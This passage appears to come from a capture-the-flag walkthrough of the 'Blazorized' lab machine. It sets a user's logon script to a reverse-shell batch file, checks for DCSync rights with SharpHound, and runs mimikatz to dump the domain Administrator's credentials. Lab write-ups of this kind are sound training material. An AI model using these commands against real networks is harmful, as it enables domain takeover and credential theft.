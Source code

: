 ```shell
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\revshell.bat'
```

![Image](/assets/img/post/blazorized/42.png)

Wait a second and get the shell for SSA_6010 and upload the SharpHound or look again 
and see the option "Find Principals with DCSync Rights" and see the SSA_6010 has a DCSync

![Image](/assets/img/post/blazorized/43.png)

Upload a mimikatz.exe and execute the following command:

lsadump::dcsync /domain:blazorized.htb /user:Administrator

